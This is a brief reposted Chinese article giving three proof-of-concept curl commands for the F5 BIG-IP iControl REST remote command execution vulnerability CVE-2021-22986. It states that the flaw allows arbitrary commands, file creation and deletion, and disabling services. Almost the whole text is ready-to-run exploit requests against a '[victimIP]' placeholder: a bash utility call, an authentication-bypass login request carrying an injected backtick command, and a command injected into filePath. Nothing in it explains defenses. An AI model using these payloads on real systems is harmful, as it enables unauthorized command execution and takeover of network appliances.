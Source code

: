 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/h-b-KPnB6s2FqPyGYM3BoQ) F5 BIG-IP iControl RCE (CVE-2021-22986)execute arbitrary system commandscreate or delete filesdisable servicesPoC #1curl -su admin: -H "Content-Type: application/json" http://[victimIP]/mgmt/tm/util/bash -d '{"command":"run","utilCmdArgs":"-c id"}'

![](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNbrsuoXwgNTyD3Wtl1LLpSaibgT1BMYcmM9fP8heuV4L0LxelYZUCIO0gLtmzM6RmQrHEWQBJoS1cQ/640?wx_fmt=jpeg)

PoC #2curl -ks https://[victimIP]/mgmt/shared/authn/login -d '{"bigipAuthCookie":"","loginReference":{"link":"http://localhost/mgmt/tm/access/bundle-install-tasks"},"filePath":"`id`"}'

![](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNbrsuoXwgNTyD3Wtl1LLpSawmibOh17IdWd1uk9et9jzNFcGV8JZFjpMjtnkticTg9crrPnv2joD93g/640?wx_fmt=jpeg)

PoC #3

curl -ksu admin:[redacted] https://[vimtimIP]/mgmt/tm/access/bundle-install-tasks -d '{"filePath":"id"}'

![](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNbrsuoXwgNTyD3Wtl1LLpSaYkBT4iavKNGbibh7QiayTyOErt6xuVVQBzeCUibbaSic1rgicdODhPzyOTGQ/640?wx_fmt=jpeg)

来源：https://twitter.com/wugeej/status/1372392693989445635